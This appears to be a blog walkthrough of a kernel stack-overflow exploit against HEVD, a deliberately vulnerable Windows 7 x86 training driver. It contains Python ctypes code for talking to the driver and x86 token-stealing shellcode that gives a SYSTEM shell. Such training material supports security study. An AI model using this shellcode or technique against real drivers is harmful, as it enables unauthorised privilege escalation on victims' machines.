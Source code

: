 ```yaml
---
layout: single
title: HEVD - Windows 7 x86 Kernel Stack Overflow
---
```


Walkthrough for the HEVD Windows Kernel Driver exploitation, exploiting a Stack-based vulnerability.

----

HEVD (HackSys Extreme Vulnerable Driver) is the Vulnserver of Kernel Land, it's a Windows kernel driver that is prone to various types of vulnerabilities, everything from basic Stack-overflows and UAF vulnerabilities, to Pool-overflows. HEVD is the de-facto standard for anyone who is looking to pursue the Offsec OSEE certification or for any security/vulnerability researcher who wants to learn kernel exploitation and kernel debugging. 

- [https://github.com/hacksysteam/HackSysExtremeVulnerableDriver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)

*A strong User-mode exploitation history is recommended before continuing with kernel exploit development*

----

**Setting up our kernel debugging environment**

For Windows kernel debugging you will need to set up two separate virtual machines and establish one as the host and one as the victim, you will bind them together with a virtual Serial port, instead of stopping and debugging a single program, this will allow for managing and debugging the entire victim VM (as if it were an application).

1. Set up a Windows 7 x86 VM
2. Clone the VM -> and name the clone as the victim VM which will run HEVD
3. Set up the virtual Serial port, boot up the host VM in normal mode
4. Boot up the victim VM (debugging mode on startup)

A full tutorial on this can be found [online](https://medium.com/@eaugusto/setting-up-a-windows-7-virtualbox-vm-for-kernel-mode-debugging-367911889316) and one Google search away.

![KD debugging enviroment](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/debugKDenv.png)

----

**Driver analysis & IOCTL discovery**

A full blog post on the detailed specifics about utilizing IOCTLs for Windows kernel exploitation can be found [here](https://fullshade.github.io/windows/internals/2020/02/01/IOCTL-kernel-drivers.html), once you dive into the world of Windows kernel I/O, it gets very complicated, so the *what is an IOCTL* gets its own post.

But just to recap, an IOCTL is a system call code that allows for the communication from a user-mode application to a kernel-mode driver. To establish a communication session with the Kernel-mode HEVD device driver, we need to locate an IOCTL.

We can use the same technique and method as mentioned in the above blog post link. We can use IDA Pro and the `win_driver_plugin` IDA plugin to automate our IOCTL discovery (Automation will not always work and can easily generate false positives.) Static code analysis for the IOCTL discovery is also possible within the HEVD driver.


1. Load and install the IDA Pro plugin into the plugin folder
2. Edit > IOCTL > Find Dispatch (CTRL+ALT+S)
3. Right Click > Driver Plugin > Decode all IOCTLs in function

![ioctl auto](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/IDA-ioctls-plugin.png)

The `0x222003h` IOCTL code is what we can use for communication. This can also be discovered manually by viewing the `DriverEntry` function > to the `IrpDeviceIoCtlHandler` function which shows us the IOCTL code. Also, since HEVD is open-source, you can view the IOCTL definition macro in its source code and calculate each IOCTL with that.

----

**Communicating with the driver**

Since this exploit will be implementing in Python, we will be using the ctypes library, which allows for Windows Win32 API function using via utilizing the various DLL's that the functions are apart of. If your exploit is in C/C++ you just need to include the <windows.h> library to use the API function directly as the MSDN documentation gives.

We can use the [CreateFileA](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) function to establish a handler to the kernel-mode driver. CreateFileA is denoted by Microsofts MSDN docs as a function that allows for handler distribution from kernel-mode to allow for cross communications.

```python
    kernel32      	  = windll.kernel32

    lpFileName            = "\\\\.\HackSysExtremeVulnerableDriver" # --> Device driver
    dwDesiredAccess       = 0xC0000000 # --> (Generic_Read (0x80000000) + Generic_Write (0x40000000))
    dwShareMode           = 0
    SecurityAttributes    = None
    dwCreationDisposition = 0x3        # --> (Open_Existing)
    dwFlagsAndAttributes  = 0
    hTemplateFile         = None

    device_handle = kernel32.CreateFileA( 
    	lpFileName,
	dwDesiredAccess,
	dwShareMode,
	SecurityAttributes,
	dwCreationDisposition,
	dwFlagsAndAttributes,
	hTemplateFile
    )
```

After obtaining a handler to the driver and opening up the initial communication pathway, we can use the [DeviceIoControl](https://docs.microsoft.com/en-us/windows/win32/api/ioapiset/nf-ioapiset-deviceiocontrol) function to pass data through the handler and to the driver.

```python
    hDevice			= device_handle	  # --> The handler provided by CreateFileA
    dwIoControlCode		= 0x222003	  # --> (IOCTL code)
    lpInBuffer			= id_payload      # --> ID of our payload (token stealing shellcode)
    nInBufferSize		= bufSize         # --> buffer size of out payload
    lpOutBuffer			= None
    nOutBufferSize		= 0
    lpBytesReturned		= byref(c_ulong())
    pOverlapped			= None

    kernel32.DeviceIoControl(
    	hDevice,		# --> HANDLE
    	dwIoControlCode,	# --> DWORD
    	lpInBuffer,		# --> LPVOID
    	nInBufferSize,		# --> DWORD
    	lpOutBuffer,		# --> LPVOID
    	nOutBufferSize,		# --> DWORD
    	lpBytesReturned,	# --> LPDWORD
    	pOverlapped		# --> LPOVERLAPPED
    )
```


**Token stealing shellcode payload**

The payload being utilized is a token stealing shellcode payload, once the attacker has code execution in kernel-mode, they can provide this shellcode to steal a System level payload.

```assembly
token_stealing_shellcode = (
    "\x60"                            ; Save registers state
    "\x64\x8b\x80\x24\x01\x00\x00"    ; Get nt!_KPCR.PcrbData.CurrentThread
				      ; _KTHREAD is located at FS:[0x124]
    "\x8b\x40\x50"                    ; Get nt!_KTHREAD.ApcState.Process
    "\x89\xc1"                        ; Copy current process _EPROCESS structure
    "\xba\x04\x00\x00\x00"            ; WIN 7 SP1 SYSTEM process PID = 0x4
    "\x8b\x80\xb8\x00\x00\x00"        ; Get nt!_EPROCESS.ActiveProcessLinks.Flink
    "\x2d\xb8\x00\x00\x00"            

    "\x39\x90\xb4\x00\x00\x00"        ; Get nt!_EPROCESS.UniqueProcessId
    "\x75\xed"                        

    "\x8b\x90\xf8\x00\x00\x00"        ; Get SYSTEM process nt!_EPROCESS.Token
    "\x89\x91\xf8\x00\x00\x00"        ; Get current process token
    "\x61"                            
```

```
    "\x31\xC0"                        # NTSTATUS -> STATUS_SUCCESS
    "\x5D"                            # pop ebp
    "\xC2\x08\x00"                    # ret 8
)
```

```python
    shellcode_address = id(token_stealing_shellcode) + 20
    print("[+] Shellcode payloads address: %s" %shellcode_address)
    print("[+] Stealing NT Authority\System token...")
    return shellcode_address
```
Returning the id of our payload is required as a parameter for the `DeviceIoControl` function used above.

**Getting NT Authority \ SYSTEM**

![cmd shell as system](https://raw.githubusercontent.com/x00pwn/Windows-Kernel-Exploitation-HEVD/master/images/HEVD_stack-overflow.png)

## Conclusion

Conclusively, in this post we covered the basic exploitation of a standard stack-based buffer overflow that resides in a third-party kernel driver. Utilizing some basic input output functions that allows us to communicate and send data to the driver, we had the ability to send data that crashed the application, and then we utilize a token stealing shellcode payload, that traversed the EPROCESS data structure to obtain a system level access token, while using that stolen token to spawn a new system level shell.
